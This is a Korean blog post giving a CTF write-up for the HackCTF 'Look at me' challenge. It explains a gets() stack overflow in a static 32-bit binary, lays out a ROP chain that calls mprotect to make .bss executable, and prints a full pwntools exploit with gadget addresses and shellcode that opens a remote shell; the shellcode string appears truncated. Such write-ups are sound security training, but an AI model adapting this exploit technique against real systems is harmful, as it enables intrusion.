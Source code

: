 ```yaml
---
layout: post
title:  "HacCTF look at me write-up"
date:   2020-02-03 19:45:55
image:  hackctf_lookatme.PNG
tags:   [HackCTF]
categories: [Write-up]
---
```


# [HackCTF] Look at me

Date: Feb 03, 2020
Tags: report


### 1.  문제

---

**1) mitigation 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Look%20at%20me/Untitled.png)

PIE가 안걸려있다. 또한 이번 바이너리는 32bit이다.

**2) 문제 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Look%20at%20me/Untitled%201.png)

Hellooooo를 출력하고 입력할수 있는 공간이 나온다. 아무 문자나 입력하면 바로 종료가 되버린다. 이역시 바로 코드를 살펴보자.

**3) 코드 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Look%20at%20me/Untitled%202.png)

메인을 보면 내가 알수 있는 함수는 look_at_me 하나이다. 나머지는 확인을 해봐도 복잡하ㄱ....

look_at_me함수를 봐보자

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Look%20at%20me/Untitled%203.png)

엄청 단순하다. gets함수를 입력받고 끝난다. ret주소까지 덮을수 있다. 혹시 플래그를 출력해주는 함수가 있는지 아이다에서 찾아보자.

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Look%20at%20me/Untitled%204.png)

함수들이 굉장히 많은데, 그 이유는 해당 바이너리를 빌드시 라이브러리들을 동적으로 링킹해준것이 아닌, 정적으로 링킹을 해줬기 때문이다. 따라서 모든 라이브러리들이 다 보이는 것이다.

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Look%20at%20me/Untitled%205.png)

file 명령어로 확인해보면 정적 링킹이 되있다는 사실을 확인 할 수 있다. 하지만 이 많은 라이브러리들 중에 system함수가 존재하지 않는다. 대신, mprotect 함수가 존재한다.

mprotect 함수는 원하는 코드영역의 권한을 변경할 수 있는 함수이다. 다행이 해당 함수가 링킹되어있어서 이를 이용하면 될 것이다.  참고로 mprotect 함수는 아래처럼 생겼는데

    mprotect(원하는 주소, 사이즈, 권한)

여기서 원하는 주소 → 이부분은 0x1000의 배수가 되야한다. mmap에서 메모리를 할당할때 해당 크기만큼 할당해주기 때문이라 한다.

### 2. 접근방법

---

스택 영역은 aslr 때문에 주소를 구하기가 귀찮음으로 .bss 영역을 이용하자. 왜냐하면 해당 영역은 aslr이 걸려있어도 주소가 고정으로 세팅되어있기 때문이다.

따라서 ROP를 이용하여 .bss 영역에 쉘코드를 삽입하여 실행시키는 루틴으로 작업하면 된다. 대충 흐름은 다음처럼 구성하면 된다.

    1. ebp까지 더미값 채우기
    
    2. ret에 gets함수 넣기
    
    3. ret + 4에 가젯 -> pop ret -> 0x08048433
    
    4. ret + 8에 bss 주소 넣기 -> 0x080eaf80
    
    5. ret + 12에 mprotect 함수 주소 넣기 -> 0x0806e0f0
    
    6. ret + 16에 가젯 -> pop pop pop ret -> 0x080483c8
    
    7. ret + 24에 7 -> 권한
    
    8. ret + 28에 3000 -> 사이즈
    
    9. ret + 32에 bss_start 주소 -> 0x080ea000
    
    10. ret + 36에 bss주소 -> 0x080eaf80

요렇게 말이다.

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Look%20at%20me/Untitled%206.png)

또한 참고로 mprotect 의 첫번째 인자인 주소가 0x1000의 배수가 되야 한다고 했으므로, .bss 시작주소를 인자로 주고 사이즈를 10000정도 크게 주면, 해당 범위 아무곳에 쉘코드를 집어넣으면 편하다

### 3. 풀이

---

최종 익스코드는 다음과 같다

    from pwn import *
    context.log_level="DEBUG"
    p=remote("ctf.j0n9hyun.xyz",3017)
    #p=process("./lookatme",aslr=False)
    #gdb.attach(p,""" b* 0x0804889E """)
    
    gets_addr=p32(0x804f120)
    pr=p32(0x08048433)
    bss=p32(0x080eaf80)
    mprotect_addr=p32(0x0806e0f0)
    pppr = p32(0x0806f028)
    rwx=p32(7)
    size=p32(10000)
    bss_start=p32(0x080ea000)
    
    shellcode="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\$
    payload = "A"*28
    payload +=gets_addr
    payload +=pr
    payload +=bss
    payload +=mprotect_addr
    payload +=pppr
    payload +=bss_start
    payload +=size
    payload +=rwx
    payload +=bss
    
    p.sendlineafter("Hellooooooooooooooooooooo\n",payload)
    
    p.sendline(shellcode)
    
    p.interactive()

### 4. 몰랐던 개념

---

- mprotect 함수를 이용한 ROP